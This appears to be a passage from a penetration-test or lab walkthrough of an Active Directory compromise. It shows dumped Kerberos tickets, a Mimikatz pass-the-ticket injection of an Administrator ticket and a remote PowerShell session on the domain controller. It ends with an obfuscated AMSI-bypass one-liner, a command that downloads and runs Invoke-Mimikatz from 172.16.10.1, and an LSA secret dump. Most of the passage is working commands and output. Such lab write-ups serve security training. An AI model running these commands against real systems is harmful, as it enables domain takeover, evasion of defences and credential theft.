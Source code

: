 ```sh
7/3/2024   2:39 PM          1755 [0:3e7]-0-0-40a50000-PRODSRV$@cifs-nebula-dc.nebula.cosmos.local.kirbi
7/3/2024   2:39 PM          1747 [0:3e7]-0-1-40a50000.kirbi
7/3/2024   2:39 PM          1709 [0:3e7]-0-2-40a50000-PRODSRV$@LDAP-nebula-dc.nebula.cosmos.local.kirbi
7/3/2024   2:39 PM          1755 [0:3e7]-0-3-40a50000-PRODSRV$@LDAP-nebula-dc.nebula.cosmos.local.kirbi
7/3/2024   2:39 PM          1583 [0:3e7]-2-0-60a10000-PRODSRV$@krbtgt-NEBULA.COSMOS.LOCAL.kirbi
7/3/2024   2:39 PM          1583 [0:3e7]-2-1-40e10000-PRODSRV$@krbtgt-NEBULA.COSMOS.LOCAL.kirbi

```

this ticket `[0:31da8d]-2-0-60a10000-Administrator@krbtgt-NEBULA.COSMOS.LOCAL.kirbi` can be injected into the LSASS by a ["pass-the-ticket"](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/pass-the-ticket) technique.


```sh
Invoke-Mimikatz -Command '"kerberos::ptt C:\users\devmanager\desktop\tickets\[0:31da8d]-2-0-60a10000-Administrator@krbtgt-NEBULA.COSMOS.LOCAL.kirbi"'
```

with the injected ticket, i established a PowerShell remote session to the Nebula Domain Controller:

```sh
$Sess = New-PSSession -ComputerName Nebula-DC.Nebula.Cosmos.Local
Enter-PSSession -Session $sess
```

```sh
PS C:\Users\devmanager\Desktop\tickets>
PS C:\Users\devmanager\Desktop\tickets>
PS C:\Users\devmanager\Desktop\tickets> Invoke-Mimikatz -Command '"kerberos::ptt C:\users\devmanager\desktop\tickets\[0;31da8d]-2-0-60a10000-Administrator@krbtgt-NEBULA.COSMOS.LOCAL.kirbi"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcosmos.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # kerberos::ptt C:\users\devmanager\desktop\tickets\[0;31da8d]-2-0-60a10000-Administrator@krbtgt-NEBULA.COSMOS.LOCAL.kirbi

* File: 'C:\users\devmanager\desktop\tickets\[0;31da8d]-2-0-60a10000-Administrator@krbtgt-NEBULA.COSMOS.LOCAL.kirbi': OK

PS C:\Users\devmanager\Desktop\tickets> $sess = New-PSSession -ComputerName nebula-dc.nebula.cosmos.local
PS C:\Users\devmanager\Desktop\tickets> Enter-PSSession -Session $sess
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> whoami
nebula\administrator
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> hostname
nebula-dc
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents>
```


[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('b'+'lE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]("{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ("1Q2U"+"zX") -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> iex (iwr http://172.16.10.1/invoke-mimikatz.ps1 -usebasicparsing)
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'